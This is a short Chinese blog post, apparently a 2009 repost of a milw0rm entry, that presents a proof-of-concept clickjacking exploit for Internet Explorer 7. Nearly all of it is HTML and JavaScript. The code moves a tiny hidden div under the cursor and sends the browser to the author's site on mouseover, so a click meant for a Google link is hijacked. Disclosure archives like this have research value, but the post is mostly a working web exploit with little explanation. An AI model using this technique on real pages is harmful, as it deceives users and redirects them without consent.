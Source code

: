 ```yaml
---
title: Internet Explorer 7 点击劫持漏洞
description: InternetExplorer7点击劫持漏洞，详细细节看下面的代码
date: 2009-01-31 10:16:56
category: 漏洞信息
tags: ['IE', '漏洞信息']
post_id: 768
alias: Internet-Explorer-7-ClickJacking-Vulnerability
ViewNums: 2337
---
```


[**Internet Explorer 7 点击劫持漏洞**](/blog/internet-explorer-7-clickjacking-vulnerability)，详细细节看下面的代码：
```html
#############################################################
# Application Name       : Internet Explorer 7
# Vulnerable Type        : [Clickjacking](/blog/internet-explorer-7-clickjacking-vulnerability)
# Author                     : UzmiX
#############################################################
< ------------------- header data end of ------------------- >
<html>
<body>
<div id="open"

onmouseover="document.location='http://www.uzmix.net';"
style="position:absolute;width:8px;height:7px;background:#FFFFFF;border:1px"></div>
<script>
function updatebox(evt) {
mouseX=evt.pageX?evt.pageX:evt.clientX;
mouseY=evt.pageY?evt.pageY:evt.clientY;
document.getElementById('open').style.left=mouseX-2;
document.getElementById('open').style.top=mouseY-2;
}
</script>
<center>
<br>
<br>
<a href="http://www.google.com" onclick="updatebox(event)"><font
style="font-family:arial;font-size:32px">http://www.google.com</font></a>
</html>
```

# [milw0rm.com](http://www.milw0rm.com/exploits/7912) [2009-01-29]
